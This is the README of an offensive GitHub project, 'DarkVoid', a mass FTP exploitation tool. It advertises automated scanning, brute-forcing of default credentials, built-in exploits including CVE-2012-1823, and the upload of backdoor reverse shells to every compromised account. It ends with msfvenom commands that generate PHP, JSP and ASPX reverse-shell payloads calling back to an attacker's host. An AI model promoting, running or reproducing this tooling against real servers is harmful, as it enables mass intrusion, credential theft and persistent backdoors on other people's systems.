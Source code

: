 [DARKVOID V1.2]

<img src="https://github.com/darkseid-security/DarkVoid/blob/main/IMG/Screenshot%20at%202022-12-04%2005-17-11.png">

Mass FTP exploitation tool, automates vulnerbility scanning and exploiting FTP servers.

Features:
- Detects FTP service version and alerts you if server is vulnerable to RCE(Remote Code Execution)
- Automatic exploitation
- Built in exploits
- Tries anonymous login
- Tries to upload a shell if anonymous login is successful
- Bruteforce default creds
- If bruteforce is successful program will try and upload a reverse shell through FTP for every cracked account
- Logs cracked user accounts and compromise FTP server via backdoor shell
- [*New Feature] Identifies webserver version and serves payload based on accepted webserver file types
- [*New Feature] Updated UI design
- [*New Feature] Added CVE-2012-1823 

Supports:
- All operating systems running python enviroment
- Exploit support for Pureftp,Proftp and vsFTP
- Exploits for Windows and Linux

TODO:
- Add more exploits
- Test proFTPD 1.3.2rc3 exploit 

Run 
==============
Add targets to Files/targets.txt
Generate payloads in DarkVoid directory before running scipt

msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php Create a JSP reverse shell<br>
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp Create a ASPX reverse shell<br>
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f aspx > shell.aspx

